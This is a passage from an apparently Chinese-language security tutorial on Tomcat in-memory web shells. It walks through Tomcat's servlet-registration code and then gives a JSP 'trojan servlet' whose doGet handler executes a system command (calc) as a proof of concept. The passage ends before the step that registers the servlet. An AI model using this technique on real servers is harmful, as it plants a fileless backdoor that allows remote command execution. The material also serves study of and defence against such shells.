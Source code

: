 ```java
                }
                if(null != multipartdef.getMaxRequestSize()) {
                    maxRequestSize = Long.parseLong(multipartdef.getMaxRequestSize());
                }
                if(null != multipartdef.getFileSizeThreshold()) {
                    fileSizeThreshold = Integer.parseInt(multipartdef.getFileSizeThreshold());
                }

                wrapper.setMultipartConfigElement(new MultipartConfigElement(
                        multipartdef.getLocation(),
                        maxFileSize,
                        maxRequestSize,
                        fileSizeThreshold));
            }
            if (servlet.getAsyncSupported() != null) {
                wrapper.setAsyncSupported(
                        servlet.getAsyncSupported().booleanValue());
            }
            wrapper.setOverridable(servlet.isOverridable());
            //将wrapper加入到context中
            context.addChild(wrapper);
        }
        for (Entry<String, String> entry :
                webxml.getServletMappings().entrySet()) {
            //配置路径
            context.addServletMappingDecoded(entry.getKey(), entry.getValue());
        }
        ......
    }
```

![](https://cdn.nlark.com/yuque/0/2025/png/44744277/1739005198296-1e557b46-7ef5-421e-9fd2-3789d09c4ff4.png)

<h2 id="RawDe">实现</h2>
<h3 id="ijOdI">实现条件</h3>
要实现内存马，有两个条件

1. 写一个木马 servlet
2. 将servlet注册入tomcat中

<h3 id="EOb1t">写马</h3>
我们仿照默认的Servlet来写一个恶意类，使我们的主机弹计算器即可（jsp中定义东西需要使用**<%! %>**）

```java
<%!
public class HelloServlet extends HttpServlet {
    private String message;

    public void init() {
        message = "Hello World!";
    }

    public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
        Runtime.getRuntime().exec("calc");
    }

    public void destroy() {
    }
}
%>
```
